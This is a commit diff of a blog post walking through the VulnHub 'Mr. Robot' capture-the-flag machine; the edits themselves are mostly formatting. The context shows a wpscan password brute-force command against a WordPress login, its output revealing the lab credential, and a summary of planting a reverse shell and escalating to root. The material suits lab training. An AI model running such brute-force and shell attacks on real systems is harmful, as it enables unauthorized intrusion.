

Before and after one commit to firatfolcay/arszilla.github.io, a Jekyll site: the page built from _posts/2019-07-04-vulnhub-mr_robot.markdown, in a window 1280 px wide and 1400 px high, scrolled down 3110 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Updated Mr. Robot

````diff
--- a/_posts/2019-07-04-vulnhub-mr_robot.markdown
+++ b/_posts/2019-07-04-vulnhub-mr_robot.markdown
@@ -18,7 +18,7 @@
 ## Summary
 - Use `nmap` to see the services
 - Use `gobuster` to find the hidden web directories and capture `key-1-of-3.txt`
-- Use `wpscan` to find possible vulnerabilities in the `Wordpress` installation and brute-force login
+- Use `wpscan` to find possible vulnerabilities in the Wordpress installation and brute-force login
 - Implement a reverse shell in one of the pages via `Editor` and use `nc` to catch the reverse shell
 - Crack the MD5 via `hashcat` and to spawn a shell with `python` to login as `robot` to capture `key-2-of-3.txt`
 - Find possible vulnerabilities in the shell via `LinEnum` to escalate privileges to `root` and capture`key-3-of-3.txt`
@@ -126,7 +126,7 @@
 =====================================================
 ```
 
-We now know that the website has `Wordpress` installed and there are several interesting directories. Taking a  look at
+We now know that the website has Wordpress installed and there are several interesting directories. Taking a  look at
 `/robots` displays a raw paste that reveals two other hidden directories.
 
 ![robots.txt][robots.txt]
@@ -141,17 +141,16 @@
 lets us access our first key; `073403c8a58a1f80d943455fb30724b9`.
 
 ### Wordpress
-Since we know `Wordpress` is present on this machine, we'll try to access the admin console over at `/wp-admin`. Since
+Since we know Wordpress is present on this machine, we'll try to access the admin console over at `/wp-admin`. Since
 we don't know the name of the users on this machine, we'll use `Lost Your Password?` and try various usernames related
 to the TV show to see if anything matches. `admin`,` fsociety`, `robot`, and `mrrobot` were no match but `elliot` was,
 indicating `elliot` is a known user in the system.
 
-Using `wpscan` we can scan the `Wordpress` installation and plugins for possible vulnerabilities and try to brute-force
+Using `wpscan` we can scan the Wordpress installation and plugins for possible vulnerabilities and try to brute-force
 login as `elliot`. Since we were given `fsocity.dic` earlier, it would make sense to use it as our wordlist.
 
 ```
 $ wpscan --url 192.168.2.243 --passwords fsocity.dic --usernames elliot
-
 _______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
@@ -215,17 +194,16 @@
 [i] No plugins Found.
 
 [+] Enumerating Config Backups (via Passive and Aggressive Methods)
-Checking Config Backups - Time: 00:00:00 <============================================================================================================> (21 / 21) 100.00% Time: 00:00:00
+Checking Config Backups - Time: 00:00:00 <========================================> (21 / 21) 100.00% Time: 00:00:00
 
 [i] No Config Backups Found.
 
 [+] Performing password attack on Xmlrpc Multicall against 1 user/s
-Progress Time: 00:57:11 <==========================================================================================================================> (1716 / 1716) 100.00% Time: 00:57:11
+Progress Time: 00:57:11 <========================================> (1716 / 1716) 100.00% Time: 00:57:11
 WARNING: Your progress bar is currently at 1716 out of 1716 and cannot be incremented. In v2.0.0 this will become a ProgressBar::InvalidProgressError.
-Progress Time: 00:57:12 <==========================================================================================================================> (1716 / 1716) 100.00% Time: 00:57:12
+Progress Time: 00:57:12 <========================================> (1716 / 1716) 100.00% Time: 00:57:12
 [SUCCESS] - elliot / ER28-0652
 All Found
-
 
 [i] Valid Combinations Found:
 | Username: elliot, Password: ER28-0652
@@ -233,7 +211,7 @@
 [...]
 ```
 
-`wpscan` found `elliot`'s password to be `ER28-0652`. We can now access `Wordpress`.
+`wpscan` found `elliot`'s password to be `ER28-0652`. We can now access Wordpress.
 
 ![Wordpress - Panel][Wordpress - Panel]
 
````
Also changed, not shown: other parts of _posts/2019-07-04-vulnhub-mr_robot.markdown (+6 -26 lines).
